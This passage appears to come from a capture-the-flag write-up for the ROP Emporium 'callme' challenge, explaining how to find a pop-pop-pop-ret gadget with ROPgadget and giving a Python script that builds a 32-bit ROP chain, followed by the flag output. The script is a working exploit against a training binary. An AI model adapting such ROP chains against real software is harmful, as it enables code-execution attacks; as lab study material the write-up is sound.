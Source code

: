 The return address, in this case, should be a rop gadget that pops three items off the stack. Removing the arguments from the stacks cleans up the stack so that the next function call can happen smoothly. There exist several programs that can find rop gadgets within binaries. I used [ROPgadget](https://github.com/JonathanSalwan/ROPgadget) in this situation. The command `ROPgadget --binary callme32` can be used to see some possibly useful gadgets within the binary. 
```bash 
Gadgets information  
============================================================
...
0x080487f9 : pop esi ; pop edi ; pop ebp ; ret
...
```


```python
import struct
import sys
buf=b'\x41'*44
buf+= struct.pack('<L',0x080484f0) # callme_one@plt
buf+= struct.pack('<L',0x080487f9) # gadget with 3 pops
buf+= struct.pack('<L',0xdeadbeef) # arg 1
buf+= struct.pack('<L',0xcafebabe) # arg 2
buf+= struct.pack('<L',0xd00df00d) # arg 3
buf+= struct.pack('<L',0x08048550) # callme_two@plt
buf+= struct.pack('<L',0x080487f9)
buf+= struct.pack('<L',0xdeadbeef)
buf+= struct.pack('<L',0xcafebabe)
buf+= struct.pack('<L',0xd00df00d)
buf+= struct.pack('<L',0x080484e0) # callme_three@plt
buf+= struct.pack('<L',0x080487f9)
buf+= struct.pack('<L',0xdeadbeef)
buf+= struct.pack('<L',0xcafebabe)
buf+= struct.pack('<L',0xd00df00d)
out= bytes(buf)
sys.stdout.buffer.write(out)
```

Running the program outputs the flag. 


```bash
callme by ROP Emporium  
x86  
  
Hope you read the instructions...  
  
> Thank you!  
callme_one() called correctly  
callme_two() called correctly  
ROPE{a_placeholder_32byte_flag!}

```

#  write4
The offset is still 44. 
